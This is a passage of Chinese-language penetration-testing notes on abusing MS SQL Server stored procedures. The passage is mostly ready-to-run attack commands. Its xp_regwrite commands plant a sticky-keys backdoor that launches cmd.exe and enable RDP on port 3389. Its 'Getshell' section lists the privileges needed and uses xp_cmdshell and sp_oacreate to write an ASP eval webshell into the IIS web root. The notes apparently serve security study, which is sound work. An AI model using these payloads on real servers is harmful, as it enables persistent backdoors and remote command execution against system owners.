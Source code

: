 ###### ②利用

```mssql
1. 将粘滞键启动结果替换成cmd命令窗口启动
	EXEC master..xp_regwrite @rootkey='HKEY_LOCAL_MACHINE',@key='SOFTWARE\Microsoft\WindowsNT\CurrentVersion\Image File Execution Options\Sethc.EXE',@value_name='Debugger',@type='REG_SZ',@value='c:\windows\system32\cmd.exe'
2. 开启3389端口
	EXEC master..xp_regwrite 'HKEY_LOCAL_MACHINE','SYSTEM\CurrentControlSet\Control\Terminal Server','fDenyTSConnections','REG_DWORD',0;
EXEC master..xp_cmdshell 'REG ADD "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f' 
```

##### g. xp_regread

* 对注册表进行读取

  ```mssql
  1. 读取注册查看是否修改成功
  EXEC master..xp_regread 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\WindowsNT\CurrentVersion\Image File Execution Options\sethc.exe','Debugger'
  ```

  <img src="../../../../我的坚果云/网安/images/9-06-morning/常用扩展存储过程.png" alt="常用扩展存储过程" style="zoom:33%;" />

#### (6). Getshell

##### a. 条件

1. web路径已知
2. sa或DBA权限(db_owner权限)

##### b. 方法

* 涉及到**xp_cmdshell、xp_dirtree、xp_subdirs、xp_regread**存储过程

###### ①利用存储过程写shell

1. xp_cmdshell

   ```mssql
   EXEC master..xp_cmdshell 'echo ^<%eval request("cmd")%^> > c:\inetpub\wwwroot\shell.asp';
   ```

2. sp_oacreate

   ```mssql
   declare @o int,@f int,@t int,@ret int
   EXEC sp_oacreate 'scripting.filesystemobject',@o OUT
   EXEC sp_oamethod @o,'createtextfile',@f OUT,'c:\inetpub\wwwroot\shell.asp',1
   EXEC @ret=sp_oamethod @f,'writeline',NULL,'^<%execute(request("cmd"))%^>'
   ```

3. 本地存储过程CLR’

   ```
   直接利用sharpSQLTools执行命令写shell进行利用
   ```
